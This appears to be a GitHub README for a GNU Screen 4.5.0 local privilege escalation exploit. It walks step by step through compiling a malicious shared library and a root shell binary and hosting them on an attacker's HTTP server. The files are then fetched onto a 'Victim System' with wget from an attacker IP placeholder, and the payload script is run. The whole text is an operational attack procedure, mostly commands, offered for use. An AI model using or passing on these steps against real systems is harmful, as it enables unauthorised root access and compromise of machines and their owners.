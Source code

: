 # GNU-Screen-4.5.0-Local-Privilege-Escalation-Files
##Add low GLIBC version release file
For more information, see [release]:https://github.com/hyunwen/GNU-Screen-4.5.0-Local-Privilege-Escalation-Files/releases
## Steps to Escalate Privilege

1. Download the 3 files hosted in this Repo.
   - [41154.sh](https://github.com/Pavandeep2318/GNU-Screen-4.5.0-Local-Privilege-Escalation-Files/blob/master/41154.sh)
   - [libhax.c](https://github.com/Pavandeep2318/GNU-Screen-4.5.0-Local-Privilege-Escalation-Files/blob/master/libhax.c)
   - [rootshell.c](https://github.com/Pavandeep2318/GNU-Screen-4.5.0-Local-Privilege-Escalation-Files/blob/master/rootshell.c)
2. Put them in the same directroy
3. Compile the libhax file using the following command:
```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```
4. Compile the rootshell file using the following command:
```
gcc -o rootshell rootshell.c
```
5. Use the python one-liner to host these files:
```
python -m SimpleHTTPServer 80
```
6. Download the following files on the Victim System. 
    - 41154.sh
    - libhax.so
    - rootshell
```
wget <Attacker IP Address>/41154.sh
wget <Attacker IP Address>/libhax.so
wget <Attacker IP Address>/rootshell
```
7. Change the permissions for the file to execute it. 
```
chmod 777 41154.sh
```
8. Execute the payload
```
./41154.sh
```

